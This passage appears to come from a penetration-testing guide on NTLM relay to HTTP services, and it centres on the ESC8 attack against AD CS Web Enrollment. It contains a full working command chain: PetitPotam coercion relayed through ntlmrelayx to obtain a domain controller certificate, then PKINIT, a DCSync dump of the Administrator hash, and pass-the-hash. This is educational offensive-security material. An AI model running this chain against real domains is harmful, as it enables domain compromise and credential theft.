   <div style="font-style: italic; color: #666; margin-top: 0px;">HTTP and EPA check</div>
</div>

<p style="margin-bottom:0.25em">
If the AD CS Web Enrollment role is installed, the default configuration has historically been vulnerable to NTLM relay (ESC8). However, according to <a href="https://blog.redteam-pentesting.de/2025/windows-coercion/">"The Ultimate Guide to Windows Coercion Techniques in 2025"</a>,
</p>
<blockquote style="margin-top:.5em">
For the longest time, channel binding and EPA were disabled by default and they were rarely enabled manually. However, starting with Windows Server 2022 23H2 LDAP channel binding was activated by default and on Windows Server 2025, EPA was enabled by default and the unencrypted AD CS Web Enrollment API was disabled by default.
</blockquote>

#### Examples
<p style="margin-bottom:0.25em">
NTLM relay to HTTP/HTTPS is often used to attack:
</p>
- ADCS (ESC8, See ["Certified Pre-Owned"](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf))
- Configuration Manager (See the [Misconfiguration Manager](https://github.com/subat0mik/Misconfiguration-Manager) project)

HTTP itself has no message-signing capability, unlike SMB/LDAP, so these services are easy targets. Consider an example of ESC8. We can leverage a template that can be issued by domain controllers and used for client authentication, as follows.
```sh
# Find abusable templates
certipy find -u coward -p 'P@ssw0rd' -dc-ip <dc ip>

# NTLM relay to HTTP
sudo python3 ntlmrelayx.py -t http://ca.kawakatz.local/certsrv/certfnsh.asp --adcs --template KerberosAuthentication -smb2support
python3 PetitPotam.py -d kawakatz.local -u coward -p 'P@ssw0rd' <attacker ip> dc1.kawakatz.local

# Abuse the issued certificate in the same way as Shadow Credentials
# DCSync as an example.
python3 gettgtpkinit.py -cert-pfx '/tmp/DC1$.pfx' kawakatz.local/'DC1$' /tmp/DC1.ccache -dc-ip <dc ip>
export KRB5CCNAME=/tmp/DC1.ccache
python3 secretsdump.py -k -no-pass kawakatz.local/'DC1$'@dc2.kawakatz.local -just-dc-user Administrator
netexec smb <dc ip> -u Administrator -H <hash>
```
<div style="text-align: center; margin: 20px 0;">
